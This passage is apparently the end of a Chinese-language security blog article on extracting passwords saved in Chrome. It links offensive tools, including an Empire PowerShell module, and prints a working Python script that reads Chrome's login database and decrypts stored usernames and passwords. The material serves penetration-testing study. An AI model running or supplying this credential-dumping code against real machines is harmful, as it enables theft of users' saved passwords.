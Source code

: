 
## 0x05 开源工具
---

解密当前系统下Chrome浏览器中保存的密码，可供参考的工具：

1. 命令行工具Chrome Password Dump，下载地址：

http://securityxploded.com/chrome-password-dump.php

2. powershell实现的工具：

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ChromeDump.ps1

3. python实现代码，可供参考的开源代码：

```
from os import getenv
import sqlite3
import win32crypt
import binascii
conn = sqlite3.connect(getenv("APPDATA") + "\..\Local\Google\Chrome\User Data\Default\Login Data")
cursor = conn.cursor()
cursor.execute('SELECT action_url, username_value, password_value FROM logins')
for result in cursor.fetchall():
    password = win32crypt.CryptUnprotectData(result[2], None, None, None, 0)[1]
    if password:
        print 'Site: ' + result[0]
        print 'Username: ' + result[1]
        print 'Password: ' + password
    else:
        print "no password found"
```

## 0x06 小结
---

本文介绍了导出Chrome浏览器密码的原理和利用方法，成功解决一个实际问题： `通过加密密钥文件和用户明文密码，能够导出另一系统下Chrome浏览器中保存的密码`

如果只获得了用户密码ntlm hash，能否导出呢？


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)


